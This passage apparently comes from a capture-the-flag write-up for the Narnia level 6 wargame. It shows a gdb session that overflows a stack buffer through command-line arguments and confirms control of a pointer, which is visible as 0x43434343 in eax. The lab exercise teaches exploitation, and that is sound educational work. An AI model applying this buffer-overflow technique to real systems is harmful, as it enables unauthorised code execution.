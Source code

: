 ```
ecx            0x36b6              14006
edx            0x0                 0
ebx            0x36b6              14006
esp            0xffffd318          0xffffd318
ebp            0xffffd338          0xffffd338
esi            0xffffd404          -11260
edi            0xf7ffcb60          -134231200
eip            0x804931f           0x804931f <main+316>
eflags         0x282               [ SF IF ]
cs             0x23                35
ss             0x2b                43
ds             0x2b                43
es             0x2b                43
fs             0x0                 0
gs             0x63                99
k0             0x0                 0
k1             0x0                 0
k2             0x0                 0
k3             0x0                 0
k4             0x0                 0
k5             0x0                 0
k6             0x0                 0
k7             0x0                 0

# Examine esp 
(gdb) x/10wx $esp
0xffffd318:     0xffffd324      0x42424242      0x42424242      0x41414100
0xffffd328:     0x41414141      0x08049000      0x00000003      0xf7fade34
0xffffd338:     0x00000000      0xf7da1cb9

# A and B separated by null 00 at the end of 0x41414100, and then eax was stores before A in the stack , let's overwrite that pointer
(gdb) run "AAAAAAAACCCC" "BBBBBBBB"
The program being debugged has been started already.
Start it from the beginning? (y or n) Y
Starting program: /narnia/narnia6 "AAAAAAAACCCC" "BBBBBBBB"
Download failed: Permission denied.  Continuing without separate debug info for system-supplied DSO at 0xf7fc7000.
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".

Breakpoint 1, 0x0804931f in main ()
(gdb) info registers
eax            0x43434343          1128481603
ecx            0x36b6              14006
edx            0x0                 0
ebx            0x36b6              14006
esp            0xffffd308          0xffffd308
ebp            0xffffd328          0xffffd328
esi            0xffffd3f4          -11276
edi            0xf7ffcb60          -134231200
eip            0x804931f           0x804931f <main+316>
eflags         0x286               [ PF SF IF ]
cs             0x23                35
ss             0x2b                43
ds             0x2b                43
es             0x2b                43
fs             0x0                 0
gs             0x63                99
k0             0x0                 0
k1             0x0                 0
k2             0x0                 0
k3             0x0                 0
```
